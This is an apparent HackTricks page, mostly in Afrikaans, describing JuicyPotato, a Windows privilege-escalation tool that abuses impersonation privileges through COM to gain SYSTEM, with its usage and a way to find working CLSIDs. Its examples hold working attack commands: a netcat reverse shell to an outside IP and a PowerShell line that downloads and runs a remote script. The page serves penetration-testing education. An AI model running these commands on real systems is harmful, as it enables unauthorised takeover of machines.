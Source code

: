 # JuicyPotato

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="warning" %}
**JuicyPotato werk nie** op Windows Server 2019 en Windows 10 bou 1809 en later nie. egter, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato) kan gebruik word om **die selfde voorregte te benut en `NT AUTHORITY\SYSTEM`** vlak toegang te verkry. _**Kyk:**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (misbruik van die goue voorregte) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_'n gesuikerde weergawe van_ [_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG)_, met 'n bietjie sap, d.w.s. **nog 'n Plaaslike Voorreg Escalation hulpmiddel, van 'n Windows Diens Rekeninge na NT AUTHORITY\SYSTEM**_

#### Jy kan juicypotato aflaai van [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)

### Samevatting <a href="#summary" id="summary"></a>

[**Van juicy-potato Readme**](https://github.com/ohpe/juicy-potato/blob/master/README.md)**:**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) en sy [variantes](https://github.com/decoder-it/lonelypotato) benut die voorregte eskalasie ketting gebaseer op [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [diens](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126) wat die MiTM luisteraar op `127.0.0.1:6666` het en wanneer jy `SeImpersonate` of `SeAssignPrimaryToken` voorregte het. Tydens 'n Windows bou hersiening het ons 'n opstelling gevind waar `BITS` doelbewus gedeaktiveer was en poort `6666` geneem is.

Ons het besluit om [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) te wapen: **Sê hallo aan Juicy Potato**.

> Vir die teorie, sien [Rotten Potato - Privilege Escalation from Service Accounts to SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) en volg die ketting van skakels en verwysings.

Ons het ontdek dat, behalwe `BITS`, daar 'n aantal COM bedieners is wat ons kan misbruik. Hulle moet net:

1. deur die huidige gebruiker instantiëerbaar wees, normaalweg 'n “diens gebruiker” wat impersonasie voorregte het
2. die `IMarshal` koppelvlak implementeer
3. as 'n verhoogde gebruiker (SYSTEM, Administrateur, …) loop

Na 'n paar toetse het ons 'n uitgebreide lys van [interessante CLSID's](http://ohpe.it/juicy-potato/CLSID/) op verskeie Windows weergawes verkry en getoets.

### Juicy besonderhede <a href="#juicy-details" id="juicy-details"></a>

JuicyPotato laat jou toe om:

* **Teiken CLSID** _kies enige CLSID wat jy wil._ [_Hier_](http://ohpe.it/juicy-potato/CLSID/) _kan jy die lys vind wat volgens OS georganiseer is._
* **COM Luisterpoort** _definieer die COM luisterpoort wat jy verkies (in plaas van die gemarshalled hardcoded 6666)_
* **COM Luister IP adres** _bind die bediener op enige IP_
* **Proses skepping modus** _afhangende van die geïmpersoniseerde gebruiker se voorregte kan jy kies uit:_
* `CreateProcessWithToken` (het `SeImpersonate` nodig)
* `CreateProcessAsUser` (het `SeAssignPrimaryToken` nodig)
* `albei`
* **Proses om te begin** _begin 'n uitvoerbare of skrip as die uitbuiting slaag_
* **Proses Argument** _pas die begin proses argumente aan_
* **RPC Bediener adres** _vir 'n stealthy benadering kan jy autentiseer by 'n eksterne RPC bediener_
* **RPC Bediener poort** _nuttig as jy wil autentiseer by 'n eksterne bediener en die vuurmuur blokkeer poort `135`…_
* **TOETS modus** _hoofsaaklik vir toetsdoeleindes, d.w.s. toets CLSIDs. Dit skep die DCOM en druk die gebruiker van die token. Sien_ [_hier vir toetsing_](http://ohpe.it/juicy-potato/Test/)

### Gebruik <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### Final thoughts <a href="#final-thoughts" id="final-thoughts"></a>

[**From juicy-potato Readme**](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts)**:**

As die gebruiker `SeImpersonate` of `SeAssignPrimaryToken` regte het, dan is jy **SYSTEM**.

Dit is byna onmoontlik om die misbruik van al hierdie COM Servers te voorkom. Jy kan dink aan die aanpassing van die regte van hierdie voorwerpe via `DCOMCNFG`, maar goeie geluk, dit gaan uitdagend wees.

Die werklike oplossing is om sensitiewe rekeninge en toepassings wat onder die `* SERVICE` rekeninge loop, te beskerm. Om `DCOM` te stop, sal beslis hierdie ontploffing inhibeer, maar kan 'n ernstige impak op die onderliggende OS hê.

From: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## Examples

Note: Visit [this page](https://ohpe.it/juicy-potato/CLSID/) for a list of CLSIDs to try.

### Get a nc.exe reverse shell
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### Powershell rev
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### Begin 'n nuwe CMD (as jy RDP-toegang het)

![](<../../.gitbook/assets/image (300).png>)

## CLSID Probleme

Dikwels werk die standaard CLSID wat JuicyPotato gebruik **nie** en die exploit misluk. Gewoonlik neem dit verskeie pogings om 'n **werkende CLSID** te vind. Om 'n lys CLSIDs te kry om vir 'n spesifieke bedryfstelsel te probeer, moet jy hierdie bladsy besoek:

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **Kontroleer CLSIDs**

Eerstens, jy sal 'n paar uitvoerbare lêers nodig hê behalwe juicypotato.exe.

Laai [Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1) af en laai dit in jou PS-sessie, en laai en voer [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1) uit. Daardie skrip sal 'n lys moontlike CLSIDs skep om te toets.

Laai dan [test\_clsid.bat ](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat) af (verander die pad na die CLSID lys en na die juicypotato uitvoerbare lêer) en voer dit uit. Dit sal begin om elke CLSID te probeer, en **wanneer die poortnommer verander, sal dit beteken dat die CLSID gewerk het**.

**Kontroleer** die werkende CLSIDs **met die parameter -c**

## Verwysings

* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)


{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
